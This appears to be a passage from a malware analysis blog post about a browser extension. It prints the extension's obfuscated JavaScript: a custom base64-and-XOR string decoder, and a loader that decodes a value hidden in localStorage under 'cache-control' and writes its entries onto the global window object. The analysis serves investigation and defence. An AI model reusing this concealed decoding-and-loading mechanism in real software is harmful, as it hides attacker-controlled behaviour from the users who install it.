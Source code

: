 ##### Strange String Function

The script also adds a new function for strings that does some form of manipulation or encoding.

```js
String.prototype.strvstrevsstr = function() {
    var a = this;
    this.length % 4 != 0 && (a += "===".slice(0, 4 - this.length % 4)), a = atob(a.replace(/\-/g, "+").replace(/_/g, "/"));
    var b = parseInt(a[0] + a[1], 16),
        c = parseInt(a[2], 16);
    a = a.substr(3);
    var d = parseInt(a);
    if (a = a.substr(("" + d).length + 1), d != a.length) return null;
    for (var e = [String.fromCharCode], f = 0; f < a.length; f++) e.push(a.charCodeAt(f));
    for (var g = [], h = b, i = 0; i < e.length - 1; i++) {
        var j = e[i + 1] ^ h;
        i > c && (j ^= e[i - c + 1]), h = e[i + 1] ^ b, g.push(e[0](j))
    }
    return g.join("");
}
```

Obivously someone doesn't want people like me to be snooping around their extension. Without actually using this extension, we won’t know what this is used for other than how it is called in some parts of the code.

`strvstrevsstr` gets invoked if we can find a string that is greater than 10 chars in length in the string stored in local storage with the key `cache-control` (for some reason now it filters for 10 chars rather than 20 as stated earlier). The `cache-control` header [typically holds these values](https://developer.mozilla.org/en-US/docs/Web/HTTP/Headers/Cache-Control), but nothing stops a bad actor from inserting additional information into the field, like an encoded string. Without running the extension, it isn’t too clear what is going on with this function. What we can tell from reading this code is that once `e` is decoded in some form with `strvstrevsstr` and parsed as a JSON object, its object entries are written to window. `A` gets set to true to possibly indicate that this step has completed.

```js
getMediaPath: function() {
    var a = window.localStorage;
    if (a["cache-control"]) {
        var b = a["cache-control"].split(",");
        try {
            var c;
            for (var d in b) {
                var e = b[d].trim();
                if (!(e.length < 10)) try {
                    if (c = e.strvstrevsstr(), c = "undefined" != typeof JSON && JSON.parse && JSON.parse(c), c && c.cache_c) {
                        for (var f in c) window[f] = c[f];
                        A = !0;
                        break
                    }
                } catch (g) {}
            }
        } catch (g) {}
        this.setMediaPath()
    }
}
```
